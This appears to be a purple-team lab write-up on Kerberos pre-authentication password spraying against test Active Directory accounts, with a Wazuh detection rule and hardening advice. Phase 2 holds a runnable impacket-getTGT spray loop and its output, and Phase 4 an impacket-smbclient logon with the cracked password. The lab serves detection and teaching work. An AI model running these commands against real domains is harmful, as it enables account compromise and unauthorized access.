







# Lab 10 — Kerberos Pre-Authentication Password Spraying & Detection

*Part of the [Kerberos Attacks and Defense Labs](../README.md) — an end-to-end purple-team investigation: Kerberos pre-authentication mechanics (RFC 4120), horizontal credential spraying against Active Directory accounts, Event 4771 pre-auth failure telemetry (Status Code `0x18`), Event 4768 successful TGT acquisition, and Wazuh SIEM detection engineering.*

---

## Overview

**Password Spraying (MITRE ATT&CK T1110.003)** is a stealthy credential guessing technique where an adversary tests a single common password against a broad list of user accounts, intentionally spacing requests to evade account lockout thresholds (`LockoutThreshold`).

When executed against the **Kerberos Authentication Service (Port 88)**, the adversary requests a Ticket Granting Ticket (TGT) by providing an encrypted timestamp in the `PA-ENC-TIMESTAMP` pre-authentication data. 
- If the password guess is incorrect, the Domain Controller (KDC) generates **Windows Security Event ID 4771** with Failure Code **`0x18`** (`KDC_ERR_PREAUTH_FAILED`).
- If the password guess is correct, the KDC issues a valid TGT and records **Windows Security Event ID 4768** with Result Code **`0x0`** (`Audit Success`).

| # | Step | Event ID | Wazuh Rule | Level | Description |
|---|---|---|---|---|---|
| **1** | Audit Policy Enforcement | — | — | — | Active Directory Kerberos Authentication Service auditing enabled |
| **2** | Target Accounts Provisioning | **4720** | **60109** | 8 | Provisioned `spray-user01` to `spray-user05` with `spray-user03` set to `Winter2026!` |
| **3** | Kerberos Password Spray | **4771** | **60104** | 5 | 4 pre-authentication failures recorded with Failure Code `0x18` |
| **4** | Valid TGT Issuance | **4768** | **100117** | 3 | Successful TGT issuance for `spray-user03` with `ResultCode: 0x0` and `TicketEncryptionType: 0x12` |
| **5** | Validated Network Access | **4624** | **100114** | 5 | Validated credential used for SMB network share access (`LogonType: 3`) |

### Lab Environment Architecture

- **Domain Controller:** Windows Server 2022 Datacenter (`WIN-SOCLAB.soclab.local` — `192.168.100.146`)
- **Attacker Host:** Kali Linux 2026.2 (`192.168.100.50`) running Impacket v0.14.0
- **SIEM Platform:** Wazuh 4.14.5 in Docker on Kali Linux (`the-server-agent` Agent 001)
- **Target User Accounts:** `spray-user01` to `spray-user05` in `SOCLAB.LOCAL`

---

## Architectural Deep Dive: Kerberos Pre-Authentication

Kerberos Pre-Authentication (RFC 4120 §5.2.7.2) protects against offline password guessing by requiring the client to prove knowledge of the user's secret key before the KDC issues an encrypted AS-REP.

```
+==================================================================================================+
|                        KERBEROS PRE-AUTHENTICATION PASSWORD SPRAYING                             |
+==================================================================================================+

   +-------------------+                                               +----------------------+
   |    Kali Linux     |                                               |  Domain Controller   |
   | (192.168.100.50)  |                                               |  (192.168.100.146)   |
   +-------------------+                                               +----------------------+
             |                                                                     |
             |  1. AS-REQ (spray-user01, PA-ENC-TIMESTAMP with "Winter2026!")       |
             |-------------------------------------------------------------------->|
             |                                                                     | Decrypt timestamp with
             |                                                                     | user01 key -> FAILS
             |                                                                     | Logs Event 4771 (0x18)
             |  2. KRB-ERROR: KDC_ERR_PREAUTH_FAILED (0x18)                        |
             |<--------------------------------------------------------------------|
             |                                                                     |
             |  3. AS-REQ (spray-user02, PA-ENC-TIMESTAMP with "Winter2026!")       |
             |-------------------------------------------------------------------->|
             |                                                                     | Logs Event 4771 (0x18)
             |  4. KRB-ERROR: KDC_ERR_PREAUTH_FAILED (0x18)                        |
             |<--------------------------------------------------------------------|
             |                                                                     |
             |  5. AS-REQ (spray-user03, PA-ENC-TIMESTAMP with "Winter2026!")       |
             |-------------------------------------------------------------------->|
             |                                                                     | Decrypt timestamp with
             |                                                                     | user03 key -> MATCH!
             |                                                                     | Logs Event 4768 (0x0)
             |  6. AS-REP (Valid TGT saved to spray-user03.ccache)                 |
             |<--------------------------------------------------------------------|
```

### Forensic Meaning of Failure Code `0x18`

When an attacker initiates a Kerberos pre-authentication failure, the KDC does **not** log Event 4625 (Logon Failure). Instead, it logs **Event 4771**:

```yaml
EventID: 4771
ServiceName: krbtgt/SOCLAB.LOCAL
TargetUserName: spray-user01
Status: 0x18                       # KDC_ERR_PREAUTH_FAILED: Pre-authentication information was invalid (Bad Password)
PreAuthType: 2                     # PA-ENC-TIMESTAMP
ClientAddress: ::ffff:192.168.100.50
```

---

## Phase 1: Environment Baseline & Auditing Setup

Before executing the password spray, the Domain Controller's Kerberos auditing policy must be verified:

```powershell
# Enable Kerberos Authentication Service auditing on the Domain Controller
auditpol /set /subcategory:"Kerberos Authentication Service" /success:enable /failure:enable

# Verify policy enforcement
auditpol /get /subcategory:"Kerberos Authentication Service"
```


### Target User Provisioning (PowerShell)

Five test domain users were provisioned. Four users were assigned complex baseline passwords, while `spray-user03` was assigned the target sprayed password:

```powershell
# Define password objects
$StrongPass = ConvertTo-SecureString "Complex#SecurePass998!" -AsPlainText -Force
$SprayedPass = ConvertTo-SecureString "Winter2026!" -AsPlainText -Force

# Create 5 domain accounts
1..5 | ForEach-Object {
    $uname = "spray-user0$($_)"
    $pass = if ($_ -eq 3) { $SprayedPass } else { $StrongPass }
    New-ADUser -Name $uname -SamAccountName $uname -UserPrincipalName "$uname@soclab.local" -AccountPassword $pass -Enabled $true
    Write-Host "[+] Created target account: $uname" -ForegroundColor Green
}
```


Verify account provisioning in Active Directory:

```powershell
Get-ADUser -Filter "SamAccountName -like 'spray-user*'" | Select-Object Name, SamAccountName, Enabled
```



Active Directory account provisioning generated corresponding **Event 4720** (User Account Created) under Wazuh Rule **60109** and **Event 4738** (User Account Changed) under Rule **60110**:


---

## Phase 2: Red Team Password Spray Execution

From Kali Linux (`192.168.100.50`), a Kerberos pre-authentication spray loop was executed using `impacket-getTGT`:

```bash
# Create username list
cat << 'EOF' > /tmp/users.txt
spray-user01
spray-user02
spray-user03
spray-user04
spray-user05
EOF

# Execute Kerberos pre-auth spray testing single password 'Winter2026!'
for u in $(cat /tmp/users.txt); do 
    echo -n "[*] Testing $u: "
    impacket-getTGT soclab.local/$u:'Winter2026!' -dc-ip 192.168.100.146 2>&1 | grep -E "Saving ticket|KDC_ERR_PREAUTH_FAILED" || echo "ERROR"
done
```

### Execution Output:

```text
[*] Testing spray-user01: [-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
[*] Testing spray-user02: [-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
[*] Testing spray-user03: [*] Saving ticket in spray-user03.ccache
[*] Testing spray-user04: [-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
[*] Testing spray-user05: [-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
```


---

## Phase 3: Blue Team SIEM Telemetry & Detection Verification

In the Wazuh SIEM dashboard, the spray pattern was immediately identified: **4 audit failure events followed by 1 successful ticket issuance**:



### Telemetry Evidence A: Successful Ticket Issuance (Event 4768)

For `spray-user03`, Event 4768 records successful TGT issuance:
- **`data.win.eventdata.resultCode`:** `0x0` (Audit Success)
- **`data.win.eventdata.ticketEncryptionType`:** `0x12` (AES-256-CTS-HMAC-SHA1-96)
- **`data.win.eventdata.preAuthType`:** `2` (PA-ENC-TIMESTAMP)
- **`data.win.eventdata.ipAddress`:** `192.168.100.50` (Attacker IP)




### Telemetry Evidence B: The Spray Failures (Event 4771)

For `spray-user01`, `02`, `04`, and `05`, Event 4771 recorded pre-authentication failures under Rule **60104**:
- **`data.win.eventdata.status`:** `0x18` (`KDC_ERR_PREAUTH_FAILED`)
- **`data.win.eventdata.serviceName`:** `krbtgt/SOCLAB.LOCAL`
- **`data.win.eventdata.ipAddress`:** `192.168.100.50`





---

## Phase 4: Follow-up Lateral Movement Validation (Event 4624)

Using the discovered valid credential, an SMB session was established from Kali:

```bash
impacket-smbclient soclab.local/spray-user03:'Winter2026!'@192.168.100.146
```



This generated **Event 4624 (Logon Type 3 - Network)**, firing custom Rule **100114** ("Normal user spray-user03 logged on from ip: 192.168.100.50"):


---

## Phase 5: Detection Rule Engineering

To detect horizontal Kerberos password spraying, a threshold correlation rule is implemented to trigger when multiple Event 4771 failures originate from the same IP address within a short timeframe:

```xml
<!-- Custom Detection Rule: Kerberos Password Spray Detection -->
<group name="windows,kerberos,">
  <rule id="100120" level="10" frequency="5" timeframe="120">
    <if_matched_sid>60104</if_matched_sid>
    <field name="win.system.eventID">^4771$</field>
    <field name="win.eventdata.status">^0x18$</field>
    <same_field>win.eventdata.ipAddress</same_field>
    <different_field>win.eventdata.targetUserName</different_field>
    <description>Potential Kerberos Password Spray: Multiple pre-auth failures (0x18) from $(win.eventdata.ipAddress) across distinct accounts</description>
    <mitre>
      <id>T1110.003</id>
    </mitre>
  </rule>
</group>
```

---

## Defensive Recommendations & Hardening

1. **Fine-Grained Password Policies (FGPP):** Enforce 15+ character passphrases to render seasonal/dictionary guessing mathematically unviable.
2. **Account Lockout Thresholds:** Configure smart lockout (e.g., 5 invalid attempts with a 15-minute observation window).
3. **Multi-Factor Authentication (MFA):** Enforce MFA on all externally exposed authentication boundaries (VPN, RDP Gateway, OWA).
4. **Behavioral SIEM Correlation:** Alert on unique IP addresses generating Event 4771 across distinct user accounts within 10 minutes.
